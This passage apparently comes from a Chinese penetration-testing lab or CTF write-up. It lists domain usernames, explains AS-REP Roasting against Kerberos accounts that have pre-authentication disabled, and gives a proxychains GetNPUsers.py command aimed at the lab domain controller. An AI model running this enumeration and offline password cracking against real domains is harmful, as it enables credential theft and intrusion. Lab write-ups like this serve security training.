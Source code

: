 ```plain
manzhi
xiangdong
weihui
xingquan
miaoshu
gongwan
qijie
shaoting
xiqi
jinghong
qianyou
chuhua
yanyue
huangjia
zhouchun
jiyu
wendong
heyuan
mazhen
shouchun
liuzhe
fengbo
taigongyuan
gesheng
songming
yuwan
diaowei
youyi
rongxianyu
fuyi
linli
weixue
hejuan
zuoqiutai
siyi
shenshan
tongdong
```

## 攻击域成员二 (AS-REP Roasting)

提示了 Kerberos，这里参考[https://misakikata.github.io/2020/08/%E5%86%85%E7%BD%91%E6%B8%97%E9%80%8F%E6%A8%AA%E8%A1%8C%E7%A7%BB%E5%8A%A8/。](https://misakikata.github.io/2020/08/%E5%86%85%E7%BD%91%E6%B8%97%E9%80%8F%E6%A8%AA%E8%A1%8C%E7%A7%BB%E5%8A%A8/%E3%80%82)

AS\_REP Roasting 是一种对用户账户进行离线爆破的方式，需要关闭预身份验证，而此选项又是默认开启的，所以有一定的限制，默认开启的预身份验证是会记录密码错误次数来防止爆破的，关闭预身份验证后，在进行 AS\_REQ 之后的时候，KDC 不会进行任何验证就将 TGT 和用该用户 Hash 加密的 Login Session Key 返回，由于 AS\_REP 的数据包中 Login Session Key 的是由用户 Hash 进行加密的，因此，可以对获取到的用户 Hash 加密的 Login Session Key 进行离线爆破，得到对应用户的明文密码。

使用 GetNPUsers 来获取用户 kerberos 票证

```plain
proxychains python3 GetNPUsers.py -dc-ip 172.22.6.12 -usersfile 1.txt xiaorang.lab/
```
